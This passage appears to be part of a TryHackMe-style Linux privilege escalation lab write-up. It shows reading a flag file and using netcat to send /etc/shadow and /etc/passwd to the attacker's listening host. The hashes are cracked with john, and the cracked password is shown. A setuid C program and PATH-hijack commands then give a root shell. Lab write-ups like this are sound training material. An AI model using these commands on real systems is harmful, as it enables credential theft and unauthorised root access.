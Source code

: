 > `/home/ubuntu/flag5.txt`

```bash
cat /home/ubuntu/flag5.txt
```

> `THM-383000283`

Host:

```bash
nc -lvnp 80 > shadow
nc -lvnp 81 > passwd
```

Target:

```bash
nc -q 1 10.6.31.75 80 < /etc/shadow
nc -q 1 10.6.31.75 81 < /etc/passwd
```

Host:

```bash
unshadow passwd shadow > passwords
john passwords
```

> `123456 (matt)`

## Privilege Escalation: PATH

```c
/* path_exp.c */
#include<unistd.h>
void main() { 
    setuid(0);
    setgid(0);
    system("thm");
}
```

```bash
gcc path_exp.c -o path -w
chmod u+s path
export PATH=/tmp:$PATH
echo "/bin/bash" > /tmp/thm
chmod 777 /tmp/thm
```

| Title | IP Address |
| :---- | :---- |
| LinPrivEscPATH3 | 10.10.159.186 |

```bash
find / -writable 2>/dev/null
```
